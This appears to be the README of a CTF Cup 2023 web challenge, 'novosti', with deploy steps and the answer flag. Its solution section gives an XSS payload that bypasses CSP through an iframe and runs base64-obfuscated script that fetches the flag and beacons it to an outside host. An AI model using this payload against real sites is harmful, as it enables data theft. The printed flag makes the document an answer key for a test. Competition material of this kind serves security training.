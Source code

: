 # web | novosti

![novosti share page](./screenshots/novosti.png)

## Information

Мы думаем над тем, чтобы запустить свою собственную газету и новостной сайт, но не хотим связываться с новостными агенствами,
поэтому мы решили получать новости из первоисточника - очевидцей самих новостей!

[https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru](https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru)

## Deploy

1. Create flag secret in deploy directory.
2. Create admin token secret in deploy directory.
3. Launch the compose project.

```sh
cd deploy
echo "ctfcup{flag}" > novosti-flag
echo "random-token" > novosti-admin-token
docker compose -p web-novosti up --build -d
```

## Public

Provide zip file: [public/novosti.zip](public/novosti.zip).

## TLDR

XSS, use iframe leading to 404 in order to bypass CSP

```html
<script>
  const iframe = document.createElement("iframe");
  iframe.src = "/404";
  document.body.appendChild(iframe);
  setTimeout(() => {
    iframe.contentWindow.document.body.innerHTML = `<img src=x onerror="eval(atob('ZmV0Y2goImh0dHA6Ly9maWxlczo4MDgwL2ZsYWciKS50aGVuKHI9PnIudGV4dCgpKS50aGVuKHQ9Pm5hdmlnYXRvci5zZW5kQmVhY29uKCJodHRwOi8vcmVuYm91LnJ1Iix0KSk7'))" />`;
  }, 1000);
</script>
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{b4by-1fr4m3-x55-a4371ea843fc145f}
